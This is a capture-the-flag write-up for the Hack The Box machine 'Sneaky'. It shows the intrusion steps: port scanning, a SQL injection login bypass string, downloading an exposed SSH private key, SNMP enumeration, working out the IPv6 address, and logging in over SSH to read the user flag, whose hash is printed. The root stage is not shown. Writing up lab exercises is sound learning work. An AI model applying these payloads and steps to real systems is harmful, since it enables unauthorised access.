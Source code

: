 # Sneaky
#### 10.10.10.20

```{r, engine='bash', count_lines}
nmap 10.10.10.20

PORT   STATE SERVICE
80/tcp open  http
```

The website shows that its under construction

![Under Construction](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Sneaky/images/Under-Construction.PNG)


Dirbuster Initiate!
<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Sneaky/images/Dirbuster.PNG"></kbd>

Well ofcourse, its under **dev**elopment

We are greeted by a Login screen

![Login Page](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Sneaky/images/Login.PNG)


Whats the autoresponse when we see a poorly made login page ?

Yes **' or '1' = '1**

Simple sql injection. Seems legit

After the login we get sjuicy stuff
![Post Login](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Sneaky/images/Post-Login.PNG)

Lets make a note of the info:

- name: admin
- name: thrasvilous
- RSA Private key
- We are No-one

Lets wget the RSA key

And because its a Private SSH key, we change its perms

```
root@kali:~/Hackthebox/Sneaky# wget http://10.10.10.20/dev/sshkeyforadministratordifficulttimes
--2017-11-07 17:24:48--  http://10.10.10.20/dev/sshkeyforadministratordifficulttimes
Connecting to 10.10.10.20:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1675 (1.6K)
Saving to: ‘sshkeyforadministratordifficulttimes’

sshkeyforadministratordifficulttimes  100%[=======================================================================>]   1.64K  --.-KB/s    in 0s      

2017-11-07 17:24:48 (120 MB/s) - ‘sshkeyforadministratordifficulttimes’ saved [1675/1675]

root@kali:~/Hackthebox/Sneaky# mv sshkeyforadministratordifficulttimes adminssh.key

root@kali:~/Hackthebox/Sneaky# chmod 600 adminssh.key 

```

**BUT!!!**

We dont have a port 22 (ssh) open on this box. Maybe it was setup on a different port.

Lets nmap all the ports 

After spending millions of years completing the nmap we see that there is no other port open.

![Alt test](https://media.giphy.com/media/l46CbAuxFk2Cz0s2A/giphy.gif)


Hold up! we found something else though

Port 161

Investigate Further

We get shit tons of info

```
nmap -sS -sU -p 161 -T4 -A 10.10.10.20

161/udp open   snmp    SNMPv1 server; net-snmp SNMPv3 server (public)

snmp-interfaces: 
|   lo
|     IP address: 127.0.0.1  Netmask: 255.0.0.0
|     Type: softwareLoopback  Speed: 10 Mbps
|     Status: up
|     Traffic stats: 129.30 Kb sent, 129.30 Kb received
|   eth0
|     IP address: 10.10.10.20  Netmask: 255.255.255.0
|     MAC address: 00:50:56:aa:35:f3 (VMware)
|     Type: ethernetCsmacd  Speed: 4 Gbps
|     Status: up
|_    Traffic stats: 45.08 Mb sent, 41.13 Mb received
| snmp-netstat: 
|   TCP  127.0.0.1:3306       0.0.0.0:0
|_  UDP  0.0.0.0:161          *:*


```
We are SURE that there is a ssh port open, but we cant find it here...

Maybe its ipv6

Let me check what ipv6 we get for the openvpn

```
inet 10.10.14.52  netmask 255.255.254.0  destination 10.10.14.52
inet6 dead:beef:2::1032  prefixlen 64  scopeid 0x0<global>
```

A wise gentelman from stack overflow helped us 
![Alt test](https://stackoverflow.com/questions/27693120/convert-from-mac-to-ipv6/27693666#27693666)

A little bit or "Trying Harder" and knowing that our local prefix should be dead:beef we get something like this

```
dead:beef::250:56ff:feaa:35f3 (HAVE TO CHECK THIS)
```

lets try and connect to it via ssh and out key

```
root@kali:~/Hackthebox/Sneaky# ssh -6 dead:beef::250:56ff:feaa:35f3
The authenticity of host 'dead:beef::250:56ff:feaa:35f3 (dead:beef::250:56ff:feaa:35f3)' can't be established.
ECDSA key fingerprint is SHA256:KCwXgk+ryPhJU+UhxyHAO16VCRFrty3aLPWPSkq/E2o.
Are you sure you want to continue connecting (yes/no)? 
```

Say Whaaaaat!!!!

Time to get rocking

We have the key, the username is thrasivoulos , lets connect

```
root@kali:~/Hackthebox/Sneaky# ssh -6 -i adminssh.key thrasivoulos@dead:beef::250:56ff:feaa:35f3
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-75-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Tue Nov  7 14:33:29 EET 2017

  System load:  0.0               Processes:           181
  Usage of /:   9.8% of 18.58GB   Users logged in:     1
  Memory usage: 23%               IP address for eth0: 10.10.10.20
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Your Hardware Enablement Stack (HWE) is supported until April 2019.
Last login: Tue Nov  7 14:33:30 2017 from dead:beef:2::1032
thrasivoulos@Sneaky:~$ 

```

**user.txt**
```
thrasivoulos@Sneaky:~$ cat user.txt
9fe14f76222db23a770f20136751bdab
```

_Mission: Root_



**_shellz_**
